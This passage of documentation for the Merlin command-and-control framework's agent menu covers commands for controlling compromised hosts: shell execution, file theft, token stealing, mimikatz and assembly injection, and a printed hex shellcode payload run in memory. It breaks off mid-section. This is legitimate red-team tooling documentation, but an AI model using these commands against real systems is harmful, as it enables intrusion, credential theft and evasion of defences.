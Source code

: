 ###########
Agent Menu
###########

The agent menu context is used to interact with a single agent. The Merlin prompt will include the word ``agent`` along
with the identifier for the selected agent. Type ``help`` to see a list of available commands for the agent menu context.

Prefix any command with ``help`` (e.g., ``help run``) to view the command's help information.
Use any of the following flags after a command name to view the help information for that command:
``help``, ``-h``, ``--help``, ``?``, ``/?``

help
----

.. note::
    The help menu will only show commands available to agent depending on its operating system

* :ref:`help core`
* linux_
* :ref:`help windows`

.. _help core:

core
^^^^

The ``core`` commands are available to every agent regardless of which operating system they are running on

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» help

       COMMAND  |          DESCRIPTION           |                 USAGE
    ------------+--------------------------------+----------------------------------------
      !         | Execute a command on the local | ! command [args]
                | system                         |
      back      | Go to the main menu            | back
      banner    | Display the Merlin ASCII art   | banner
                | banner                         |
      cd        | Change the Agent's current     | cd directory
                | working directory to provided  |
                | file system path               |
      checkin   | Force the agent check in by    | checkin
                | sending back an AgentInfo      |
                | message                        |
      clear     | Cancel all Agent jobs that     | clear
                | have not been sent             |
      connect   | Instruct an Agent to           | connect uri
                | re-connect it's primary        |
                | communicate channel to the     |
                | provide address                |
      debug     | Switch debug output to the     | debug
                | console on or off              |
      download  | Download a file from the host  | download filePath
                | the Agent is running on to the |
                | Server                         |
      env       | View or modify operating       | env {get|set|showall|unset}
                | system environment variables   | [variable] [value]
      exit      | Instruct the Agent to exit and | exit [-y]
                | quit running                   |
      ifconfig  | Get the network interface      | ifconfig
                | information where the Agent is |
                | running                        |
      info      | Display information about the  | info
                | Agent                          |
      interact  | Interact with an agent or a    | interact {agentID|listenerID}
                | listener                       |
      ipconfig  | Get the network interface      | ipconfig
                | information where the Agent is |
                | running                        |
      ja3       | Change the Agent's JA3 TLS     | ja3 signature
                | signature to the one provided  |
      jobs      | Display all unfinished jobs    | jobs
      kill      | Terminate a running process    | kill pid
                | by its numerical process       |
                | identifier                     |
      killdate  | Set the epoch date/time the    | killdate epochDateTime
                | agent will quit running        |
      link      | Establish a connection link    | link
                | with a peer-to-peer Agent      | {add|list|remove|refresh|tcp|udp|smb}
                |                                | address
      listener  | Start, stop, or list           | listener {list|start|stop}
                | peer-to-peer listeners on the  | [protocol] [address]
                | Agent                          |
      listeners | Move to the listeners menu     | listeners
      ls        | List the files and folders of  | ls [filePath]
                | the provided filepath          |
      main      | Go to the Main menu            | main
      maxretry  | Change the maximum number of   | maxretry number
                | failed connection attempts     |
                | before the Agent exits.        |
      modules   | Move to the modules menu       | modules
      note      | Create a server-side note for  | note message
                | the current agent.             |
      nslookup  | Natively resolve a hostname or | nslookup {hostname|ip address}
                | IP address                     | [hostname|ip address] ...
      padding   | Set the MAXIMUM amount of      | padding size
                | random message padding         |
      printenv  | List all environment           | printenv
                | variables.                     |
      pwd       | Print the current working      | pwd
                | directory.                     |
      quit      | Stop and exit Merlin           | quit [-y]
      rm        | Remove a file or directory     | rm filePath
      run       | Execute a program and return   | run program [arguments]
                | output                         |
      sdelete   | Securely delete a file by      | sdelete filePath
                | zeroing out the data           |
      sessions  | List established Agent         | sessions
                | sessions                       |
      shell     | Execute commands through the   | shell command [arguments]
                | host's default command shell   |
      skew      | Change the jitter, or skew,    | skew amount
                | of the Agent's beaconing       |
                | interval.                      |
      sleep     | Change the Agent's sleep       | sleep duration
                | interval                       |
      socks     | Start, stop, or list a SOCKS5  | socks {list | start
                | server on the Merlin server    | [interface:]port agentID |stop
                |                                | [interface:]port agentID}
      ssh       | Execute a command on a remote  | ssh username password
                | host via SSH                   | host:port program [args]
      status    | Display if the Agent is        | status
                | active, delayed, or dead       |
      touch     | Copy a file's timestamp to     | touch sourceFilePath
                | another file                   | destinationFilePath
      unlink    | Task parent Agent to           | unlink childAgentID
                | disconnect the child           |
                | peer-to-peer Agent             |
      upload    | Upload a file to the target    | upload sourceFilePath
                | system                         | destinationFilePath
      verbose   | Switch verbose output to the   | verbose
                | console on or off              |

.. _help linux:

linux
^^^^^

These commands are only available to agents running on a ``Linux`` operating system.

.. code-block:: text

       COMMAND  |          DESCRIPTION           |                 USAGE
    ------------+--------------------------------+----------------------------------------
      memfd     | Execute a program from memory  | memfd filePath [args]

.. _help windows:

windows
^^^^^^^

These commands are only available to agents running on a ``Windows`` operating system.

.. code-block:: text

           COMMAND      |          DESCRIPTION           |                   USAGE
    --------------------+--------------------------------+--------------------------------------------
      execute-assembly  | Execute .NET assembly as       | execute-assembly assemblyPath
                        | shellcode in a child process   | [assemblyArguments]
                        |                                | [spawnToPath]
                        |                                | [spawnToArguments]
      execute-pe        | Execute Windows PE as          | execute-pe peFilePath
                        | shellcode in a child process   | [peArgumentes] [spawnToPath]
                        |                                | [spawnToArguments]
      execute-shellcode | Execute Windows shellcode      | execute-shellcode
                        |                                | {self|remote|RtlCreateUserThread|UserAPC}
                        |                                | [PID] {shellcode | shellcodeFilePath}
      invoke-assembly   | Execute a .NET assembly that   | invoke-assembly assemblyName
                        | was previously loaded into the | [assemblyArguments]
                        | agent with the 'load-assembly' |
                        | command.                       |
      load-clr          | Load a specific version of the | load-clr VERSION
                        | .NET CLR                       |
      list-assemblies   | Lists .NET assemblies that     | list-assemblies
                        | have been loaded into the      |
                        | agent’s process with the       |
                        | 'load-assembly' command.       |
      load-assembly     | Load a .NET assembly into the  | load-assembly filePath [alias]
                        | agent’s process.               |
      make_token        | Create a new Windows access    | make_token DOMAIN\USERNAME
                        | token                          | PASSWORD
      memory            | Read, write, or patch the      | memory {read|write|patch}
                        | Agent process' virtual memory  | module procedure {readLength |
                        |                                | hexData}
      netstat           | Get a list of network          | netstat [-p tcp|udp]
                        | connections                    |
      pipes             | List all named pipes on the    | pipes
                        | system                         |
      ps                | List running processes         | ps
      rev2self          | Revert the thread              | rev2self
                        | impersonation token to the     |
                        | process token                  |
      runas             | Run a program as a different   | runas domain\user password
                        | user.                          | program [arguments]
      sharpgen          | Compile & execute arbitrary C# | sharpgen <C# code> [spawnto]
                        | code.                          | [spawnto_args]
      steal_token       | Steal and use a Windows access | steal_token PID
                        | token from another process     |
      token             | Interact with Windows access   | token
                        | tokens                         | {make|privs|rev2self|steal|whoami}
                        |                                | [options]
      uptime            | Get the uptime of the target   | uptime
                        | system.                        |

!
-

.. note::
    USAGE: ``! command [args]``

Any command that begins with a ``!`` (a.k.a bang or exclamation point) will be executed on host itself where the Merlin
server is running. This is useful when you want simple information, such as your interface address, without having to
open a new terminal.

.. note::
    There must be a space after the ``!`` for the command to be executed.

.. code-block:: text

    Merlin» ! ip a show ens32

    [i] Executing system command...

    [+] 2: ens32: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
        link/ether 00:0c:29:z3:ff:91 brd ff:ff:ff:ff:ff:ff
        inet 192.168.211.221/24 brd 192.168.211.255 scope global dynamic noprefixroute ens32
           valid_lft 1227sec preferred_lft 1227sec
        inet6 fe80::a71d:1f6a:a0d1:7985/64 scope link noprefixroute
           valid_lft forever preferred_lft forever

    Merlin»

back
----

.. note::
    USAGE: ``back``

The ``back`` command go to the parent menu, typically the main menu. When the ``back`` command is executed from the
main menu, nothing will happen.

.. code-block:: text

    Merlin» back
    Merlin»

banner
------

.. note::
    USAGE: ``banner``

The ``banner`` command is used too print the super cool ascii art banner along with the version and build numbers.

.. code-block:: text

    Merlin» banner
    Merlin»


                                   &&&&&&&&
                                 &&&&&&&&&&&&
                                &&&&&&&&&&&&&&&
                              &&&&&&&&&&& &&&&
                             &&&&&&&&&&&&&  &&&&
                            &&&&&&&&&&&& &  &&&&
                           &&&&&&&&&&&&&     &&&&
                          &&&&&&&&&&&&&&&     &&&
                         &&&&&&&&&&&&&&&&&     &&&
                        &&&&&&&&&&&&&&&&&&&     &&&
                       &&&&&&&&&&&&&&&&&&&&&
                      &&&&&&&&&&&&&&&&&&&&&&&
                      &&&&&&&&&&&&&&&&&&&&&&&
                     &&&&&&&&&&&&&&&&&&&&&&&&&
                    &&&&&&&&&&&&&&&&&&&&&&&&&&&
                   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                 &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
           &&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&
        &&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&
      &&&&&&&   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&&&&&
    &&&&&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&&&
    &&&&&&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&&&&
    &&&&&&&&&&&   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&&&&&&&&&
    &&&&&&&&&&&&&     &&&&&&&&&&&&&&&&&&&&&&&     &&&&&&&&&&&&&
      &&&&&&&&&&&&&&&          MERLIN         &&&&&&&&&&&&&&&
        &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
           &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
               &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                       Version: 2.0.0
                       Build: nonRelease

.. _cd:

cd
--

.. note::
    USAGE: ``cd directory``

The ``cd`` command is used to change the current working directory the Merlin agent is using.
Relative paths can be used (e.g.,. ``./../`` or ``downloads\\Merlin``).
This command uses native Go and will not execute the ``cd`` binary program found on the host operating system.

| The ``\`` in a Windows directory must be escaped like ``C:\\Windows\\System32``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd /usr/bin
    [-]Created job evtawDqBWa for agent a98e6175-7799-47fb-abf0-32534a9191f0 at 2019-02-27T01:03:57Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job evtawDqBWa at 2019-02-27T01:03:59Z
    Changed working directory to /usr/bin

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» cd "C:\\Program Files (x86)\\"
    [-]Created job gwFQhcsKJi for agent c1090dbc-f2f7-4d90-a241-86e0c0217786 at 2019-02-27T01:17:26Z
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job gwFQhcsKJi at 2019-02-27T01:17:30Z
    Changed working directory to C:\Program Files (x86)

checkin
-------

.. note::
    USAGE: ``checkin``

The ``checkin`` command will force the agent check in by sending back an ``AgentInfo`` message.
Useful when a peer-to-peer Agent has a negative sleep value so it only communicates in when it has a message to send.

.. code-block:: text

    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» checkin
    [-] Created job xLjwJhegfR for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T10:58:26Z
    [-] Results of job xLjwJhegfR for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T10:58:43Z
        Configuration data received for Agent 13f6ebee-78ec-4414-a04c-74188b95c01c and updated. Issue the "info" command to view it.

clear
-----

.. note::
    USAGE: ``clear``

The ``clear`` command will cancel all jobs in the queue that have not been sent to the agent yet.
This command will only clear jobs for the current agent.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» clear
    [+] jobs cleared for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

connect
-------

.. note::
    USAGE: ``connect uri``

The ``connect`` command instruct an Agent to re-connect it's primary communicate channel to the provide address.

* HTTP based Agents use a URI like ``https://127.0.0.1``
* TCP/UDP Agents use a URI like ``127.0.0.1:7777``
* SMB Beacons use a URI like ``\\\\127.0.0.1\\pipe\\merlinpipe`` and the backslashes need to be escaped

Bind Agents will listen on the new interface and reverse Agents will connect to the new uri.
If you get the jobs results back, the Agent has successfully reconnected.

HTTP Agent:

.. code-block:: text

    Merlin[agent][b3c03f46-b327-45c1-ac82-71a49032d4ad]» connect https://192.168.22.100/NeverGonnaGiveYouUp
    [-] Created job QZnUPPEooZ for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:04:08Z
    [-] Results of job QZnUPPEooZ for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:04:24Z
        Configuration data received for Agent b3c03f46-b327-45c1-ac82-71a49032d4ad and updated. Issue the "info" command to view it.

TCP bind Agent:

.. code-block:: text

    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» connect 192.168.31.163:4444
    [-] Created job IFDLuKIRHD for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T11:09:36Z
    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» interact b3c03f46-b327-45c1-ac82-71a49032d4ad
    Merlin[agent][b3c03f46-b327-45c1-ac82-71a49032d4ad]» link tcp 192.168.31.163:4444
    [-] Created job QeoGIbKQjh for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:10:43Z
    [-] Results of job QeoGIbKQjh for agent b3c03f46-b327-45c1-ac82-71a49032d4ad at 2023-08-03T11:11:04Z
    [+] Successfully connected to tcp-bind Agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 192.168.31.163:4444
    [-] Results of job IFDLuKIRHD for agent 13f6ebee-78ec-4414-a04c-74188b95c01c at 2023-08-03T11:11:04Z
        Configuration data received for Agent 13f6ebee-78ec-4414-a04c-74188b95c01c and updated. Issue the "info" command to view it.


debug
-----

.. note::
    USAGE: ``debug``

The ``debug`` command is a switch used to enable or disable debug output to the console.

.. code-block:: text

    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» debug
    [+] 2023-10-19T12:16:13Z Debug output enabled
    Merlin[agent][13f6ebee-78ec-4414-a04c-74188b95c01c]» debug
    [+] 2023-10-19T12:16:15Z Debug output disabled

.. _download:

download
--------

.. note::
    USAGE: ``download filePath``

The ``download`` command is used to download a file from the host where the agent is running back to the Merlin server.
The file will be automatically saved in a folder with a name of the agent's identifier in the
``data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786`` directory.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Enclose file paths containing a space with quotation marks (e.g.,. ``"C:\\Windows\\Program Files\\"``)

.. warning::
    Downloaded files are stored on the Merlin Server, not the place where the Merlin CLI is running.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» download C:\\Windows\\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job NXnhJVRUSP for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job NXnhJVRUSP
    [+]Successfully downloaded file C:\Windows\hh.exe with a size of 17920 bytes from agent to C:\merlin\data\agents\c1090dbc-f2f7-4d90-a241-86e0c0217786\hh.exe
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»

env
---

.. note::
    USAGE: ``env {get|set|showall|unset} [variable] [value]``

The ``env`` command is used to interact with environment variables and has the following methods:
  * get_
  * :ref:`env set`
  * showall_
  * unset_

get
^^^

.. note::
    USAGE: ``env get variable``

The ``env get`` command is used to retrieve the value of an existing environment variable.
The third, or last, argument is the name of environment variable to retrieve.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job xaSqAdQBXs for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=TESTINGTEST

.. _env set:

set
^^^

.. note::
    USAGE: ``env set variable value``

The ``env set`` command is used create, or overwrite, an environment variable with the specified value.
The third argument is the name of the environment variable and the fourth argument is the environment variables value.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env set TEST1 TESTINGTEST
    [-] Created job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NcyukONetb for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Set environment variable: TEST1=TESTINGTEST

showall
^^^^^^^

.. note::
    USAGE: ``env showall``

The ``env showall`` command enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env showall
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

unset
^^^^^

.. note::
    USAGE: ``env unset variable``

The ``env unset`` command clears, or empties, the environment variable name provided in the third argument:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env unset TEST1
    [-] Created job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job hEYjNYeniT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Unset environment variable: TEST1

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» env get TEST1
    [-] Created job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job IhKdCrKHEr for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variable TEST1=

exit
----

.. note::
    USAGE: ``exit [-y]``

The ``exit`` control type instructs the agent to exit or die.
There is no response on the CLI after the instruction has been provided to the agent.
This is the shortest way to quickly kill an agent.
The command will prompt for confirmation to prevent accidentally exiting the agent.
If you are certain use the ``-y`` flag to skip confirmation.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» exit

    are you sure that you want to exit the agent? [yes/NO]:
    yes
    Merlin»
    [-] Created job LHhrzSYuGS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _execute-assembly:

execute-assembly
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``execute-assembly assemblyPath [assemblyArguments] [spawnToPath] [spawnToArguments]``

The ``execute-assembly`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a .NET assembly into
shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module to execute the shellcode.

Currently this command only supports .NET v4.0 assemblies. For more granular control, use the ``windows/x64/go/exec/donut`` module.

The command requires the file path to the assembly you wish to execute in the ``<assembly path>`` argument.
All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and
where the shellcode will be injected and executed.
If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used.
The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<assembly args>`` (e.g., ``execute-assembly Seatbelt.exe "LocalGroups LocalUsers"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly Seatbelt.exe "DotNet IdleTime" "C:\\Windows\\System32\\WerFault.exe" /?
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job dmAfzDPUsM for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job dmAfzDPUsM



                            %&&@@@&&
                            &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                            &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
    %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
    #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
    #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
    #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
    #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
    ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
    #####%######################  %%%..                       @////(((&%%%%%%%################
                            &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
                            &%%&&&%%%%%        v1.1.0         ,(((&%%%%%%%%%%%%%%%%%,
                             #%%%%##,


    ====== DotNet ======

      Installed CLR Versions
          2.0.50727
          4.0.30319

      Installed .NET Versions
          3.5.30729.4926
          4.8.03752

      Anti-Malware Scan Interface (AMSI)
          OS supports AMSI           : True
         .NET version support AMSI   : True
            [!] The highest .NET version is enrolled in AMSI!
            [*] You can invoke .NET version 3.5 to bypass AMSI.
    ====== IdleTime ======

      CurrentUser : DESKTOP-H35RK21\rastley
      Idletime    : 00h:06m:02s:766ms (362766 milliseconds)



    [*] Completed collection in 0.122 seconds

.. _execute-pe:

execute-pe
----------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``execute-pe peFilePath [peArgumentes] [spawnToPath] [spawnToArguments]``

The ``execute-pe`` command uses `go-donut <https://github.com/Binject/go-donut>`_ to convert a Windows Portable
Executable (PE), commonly an .exe, into shellcode and then uses the ``windows/x64/go/exec/createProcess`` Merlin module
to execute the shellcode.

The command requires the file path to the PE you wish to execute in the ``<pe path>`` argument.
All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and
where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided,
``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the
spawnto process.

.. note::
    Because ``\`` is used to escape a character, file paths require two (e.g., ``C:\\Windows``)

.. note::
    Use quotes to enclose multiple arguments for ``<pe args>`` (e.g., ``execute-pe mimikatz.exe "coffee exit"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe mimikatz.exe "coffee exit" C:\\Windows\\System32\\WerFault.exe Testing
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-] Created job BSvJZFvbRZ for agent c1090dbc-f2f7-4d90-a241-86e0c0217786


    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job BSvJZFvbRZ


      .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
     '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
      '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz(commandline) # coffee

        ( (
         ) )
      .______.
      |      |]
      \      /
       `----'

    mimikatz(commandline) # exit
    Bye!


.. _execute-shellcode:

execute-shellcode
-----------------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``execute-shellcode {self|remote|RtlCreateUserThread|UserAPC} [PID] {shellcode | shellcodeFilePath}``

The ``execute-shellcode`` command is used to have the Agent execute the provided shellcode. This command became available in version ``0.6.4`` and is only supported for Windows agents.

The ``execute-shellcode`` command takes the shellcode you want to execute at the last argument.
Shellcode can be provided using an absolute filepath or by pasting it directly into the terminal in one of the following
formats:

* Hex (e.g., ``5051525356``)
* ``0x50, 0x51, 0x52, 0x53, 0x56`` with or without spaces and commas
* ``\x50\x51\x52\x53\x56``
* Base64 encoded version of the above formats
* A file containing any of the above formats or just a raw byte file

.. warning::
    Shellcode injection and execution could cause a process to crash so choose wisely

.. note::
    If Cobalt Strike's Beacon is injected using one of these methods, exiting the Beacon will cause the process to die too.

The agent can execute shellcode using one of the following methods:
  * self_
  * remote_
  * RtlCreateUserThread_
  * UserAPC_

.. _self:

self
^^^^

.. note::
    USAGE: ``execute-shellcode self SHELLCODE``

The ``self`` method allocates space within the Merlin Agent process and executes the shellcode.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode self 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
    [-]Created job joQNJONrEK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job joQNJONrEK
    [+]Shellcode executed successfully


remote
^^^^^^

.. note::
    USAGE: ``execute-shellcode remote PID SHELLCODE``

The ``remote`` method creates a thread in another process using the
`CreateRemoteThreadEx <https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createremotethreadex>`_
Windows API call.

.. code-block:: text

